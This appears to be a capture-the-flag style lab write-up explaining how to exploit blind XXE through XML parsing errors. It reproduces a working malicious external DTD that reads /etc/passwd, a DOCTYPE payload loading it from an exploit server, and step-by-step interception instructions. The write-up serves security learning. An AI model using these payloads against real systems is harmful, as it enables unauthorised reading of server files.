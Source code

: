 ```yaml
---
tags: ["blind", "XXE"]
image: https://cdn.acunetix.com/wp-content/uploads/2017/07/11110651/XXE_600x315.png
---
```


## Exploiting blind XXE to retrieve data via error messages

An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response.

You can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM    'file:///nonexistent/%file;'>">
%eval;
%error;
```

This DTD carries out the following steps:

- Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
- Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `error`. The `error` entity will be evaluated by loading a nonexistent file whose name contains the value of the `file` entity.
- Uses the `eval` entity, which causes the dynamic declaration of the `error` entity to be performed.
- Uses the `error` entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the `/etc/passwd` file.

Invoking the malicious external DTD will result in an error message like the following:

```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Challenge

> This lab has a "Check stock" feature that parses XML input but does not display the result.
> To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.
> The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

--> so first of all we have to make our malicious dtd file so let's goto `exploit server` and add this payload:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM    'file:///nonexistent/%file;'>">
%eval;
%error;
```

--> Also don't forget to change the `Content-type` to `application/xml-dtd` because we are passing xml data.

--> Now click on `store` and we have made our external dtd file and also i named it `exploit.dtd`

![](Attachments/Pastedimage20220303115446.png)

--> After that goto main application and click on any product and intercept the `check store` request and add the payload which will make request to our external dtd payload So i made this payload:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "<exploit-server-url>/exploit.dtd"> %xxe;]>
```

So the final payload will look like this:

![](Attachments/Pastedimage20220303114920.png)

Now right click on request and select `Do intercept->response to this request` and forward the request. And you will see the content of `/etc/passwd` in response.

![](Attachments/Pastedimage20220303121031.png)

And we solved the lab!
